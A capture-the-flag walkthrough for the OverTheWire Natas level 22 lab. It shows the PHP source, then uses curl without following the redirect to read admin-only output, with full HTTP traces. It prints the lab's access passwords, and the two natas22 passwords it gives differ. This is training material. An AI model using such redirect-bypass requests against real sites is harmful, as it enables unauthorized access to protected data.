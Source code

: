 # Natas Level 22
```bash
Username: natas22
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
URL:      http://natas22.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas22.png" />
    <div align="center">Natas 22</div>
</figure>

*nothing at all :confused:*

And the [source code](http://natas22.natas.labs.overthewire.org/index-source.html):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas22-view-sourcecode.png" />
    <div align="center">Natas 22 - View sourcecode</div>
</figure>

We can see two scripts (the first is at top):
```php
session_start(); 

if(array_key_exists("revelio", $_GET)) { 
    // only admins can reveal the password 
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) { 
        header("Location: /"); 
    } 
}
```

And:
```php
if(array_key_exists("revelio", $_GET)) { 
    print "You are an admin. The credentials for the next level are:<br>"; 
    print "<pre>Username: natas23\n"; 
    print "Password: <censored></pre>"; 
}
```

When sending the GET parameter "revelio", the first script check if we are admins (admin=1 in session data), and if not - redirects us out of the page, damn!

Lets first mimic browser behavior using cURL:

```bash
curl -u natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ -vv -L 'http://natas22.natas.labs.overthewire.org/index.php?revelio'
```

The output is:
```bash
* Trying 176.9.9.172...
* Connected to natas22.natas.labs.overthewire.org (176.9.9.172) port 80 (#0)
* Server auth using Basic with user 'natas22'
> GET /index.php?revelio HTTP/1.1
> Host: natas22.natas.labs.overthewire.org
> Authorization: Basic bmF0YXMyMjpjaEc5ZmJlMVRxMmVXVk1nallZRDFNc2ZJdk40NjFrSg==
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 302 Found
< Date: Sun, 27 May 2018 08:29:26 GMT
< Server: Apache/2.4.10 (Debian)
< Set-Cookie: PHPSESSID=hulsqnjmqsthvkejjmgkdutv35; path=/; HttpOnly
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Location: /
< Content-Length: 1049
< Content-Type: text/html; charset=UTF-8
< 
* Ignoring the response-body
* Connection #0 to host natas22.natas.labs.overthewire.org left intact
* Issue another request to this URL: 'http://natas22.natas.labs.overthewire.org/'
* Found bundle for host natas22.natas.labs.overthewire.org: 0x4b26cede50 [can pipeline]
* Re-using existing connection! (#0) with host natas22.natas.labs.overthewire.org
* Connected to natas22.natas.labs.overthewire.org (176.9.9.172) port 80 (#0)
* Server auth using Basic with user 'natas22'
> GET / HTTP/1.1
> Host: natas22.natas.labs.overthewire.org
> Authorization: Basic bmF0YXMyMjpjaEc5ZmJlMVRxMmVXVk1nallZRDFNc2ZJdk40NjFrSg==
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 27 May 2018 08:29:26 GMT
< Server: Apache/2.4.10 (Debian)
< Set-Cookie: PHPSESSID=5ag55dh7kj067p2t9f08hd1116; path=/; HttpOnly
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 917
< Content-Type: text/html; charset=UTF-8
<


<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas22", "pass": "chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ" };</script></head>
<body>
<h1>natas22</h1>
<div id="content">


<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
* Connection #0 to host natas22.natas.labs.overthewire.org left intact
```

We can see the redirection.

now lets NOT TO FOLLOW recirects.

It can be done easy with cURL (dont send the *-L* switch):
```bash
curl -u natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ -v 'http://natas22.natas.labs.overthewire.org/index.php?revelio'
```

The output:
```bash
* Trying 176.9.9.172...
* Connected to natas22.natas.labs.overthewire.org (176.9.9.172) port 80 (#0)
* Server auth using Basic with user 'natas22'
> GET /index.php?revelio HTTP/1.1
> Host: natas22.natas.labs.overthewire.org
> Authorization: Basic bmF0YXMyMjpjaEc5ZmJlMVRxMmVXVk1nallZRDFNc2ZJdk40NjFrSg==
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 302 Found
< Date: Sun, 27 May 2018 08:31:05 GMT
< Server: Apache/2.4.10 (Debian)
< Set-Cookie: PHPSESSID=ifgi20ecnrhe8k5k9dream91v6; path=/; HttpOnly
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Location: /
< Content-Length: 1049
< Content-Type: text/html; charset=UTF-8
<


<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas22", "pass": "chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ" };</script></head>
<body>
<h1>natas22</h1>
<div id="content">

You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
* Connection #0 to host natas22.natas.labs.overthewire.org left intact
```

We got the password for the next level: **D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE**